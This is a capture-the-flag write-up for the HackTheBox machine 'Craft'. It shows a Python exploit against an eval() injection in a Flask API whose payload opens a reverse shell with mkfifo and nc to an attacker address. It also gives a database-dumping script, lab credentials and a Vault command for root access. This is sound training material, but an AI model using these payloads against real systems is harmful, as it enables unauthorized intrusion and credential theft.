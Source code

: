 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2019-07-20-craft-hackthebox
tags:
- cve
- gogs
- hashicorp vault
title: Craft @ HackTheBox
---
```


Craft is a medium difficulty [box](https://www.hackthebox.eu/home/machines/profile/197).

## User

First we enumerate sub domains and find "https://gogs.craft.htb/", where we find credentials in the commit history: "dinesh:4aUh0A8PbVJxgd". In addition there is a vulnerable function in the source code, containing an eval:

```
def post(self):
    """
    Creates a new brew entry.
    """

    # make sure the ABV value is sane.
    if eval('%s > 1' % request.json['abv']):
        return "ABV must be a decimal value less than 1.0", 400
    else:
        create_brew(request.json)
        return None, 201
```

We use a custom post request to get a shell:

```
import requests
from requests.auth import HTTPBasicAuth
import json

auth = "https://api.craft.htb/api/auth/login"

r = requests.get(auth, auth=HTTPBasicAuth('dinesh', '4aUh0A8PbVJxgd'), verify=False)
token = json.loads(r.text)['token']

brew = "https://api.craft.htb/api/brew/"

r = requests.post(brew, headers={
    'X-Craft-API-Token': token,
    'Content-Type': 'application/json'
}, data=json.dumps({
    "id": 0,
    "brewer": "string",
    "name": "xct",
    "style": "xct",
    "abv": "__import__('os').system('rm /tmp/.xsh;mkfifo /tmp/.xsh;cat /tmp/.xsh|/bin/sh -li 2>&1|nc <ip> 443 > /tmp/.xsh')"
}), verify=False)
print json.loads(r.text)
```

In the apps settings in "/opt/app/craft\_api/settings.py" we find db credentials: "craft:qLGockJ6G2J75O". We now connect to the database via python and dump the tables, obtaining another set of credentials: "gilfoyle:ZEU3N8WNM2rh4T"

```
import sys
import pymysql

db_name = 'craft'
connection = pymysql.connect(host='172.20.0.4',
                             user=db_name,
                             password='qLGockJ6G2J75O',
                             db=db_name,
                             cursorclass=pymysql.cursors.DictCursor)
try:
    with connection.cursor() as cursor:
        #sql = "SELECT * FROM `user`"
        sql = f"SELECT TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA NOT LIKE 'information_schema%'"
        cursor.execute(sql)
        print(repr(cursor.fetchall()))
finally:
    connection.close()
```

Using the creds we can log into gogs as gilfoyle and find the private ssh key of gilfoyle in his repo. With this key we can log into the box as gilfoyle via ssh (the passphrase is his password we got before) and grab user.txt

## Root

We issue `vault write ssh/creds/root_otp ip=172.20.0.2` to get a ssh password for root, then use `ssh root@localhost` to connect and can grab root.txt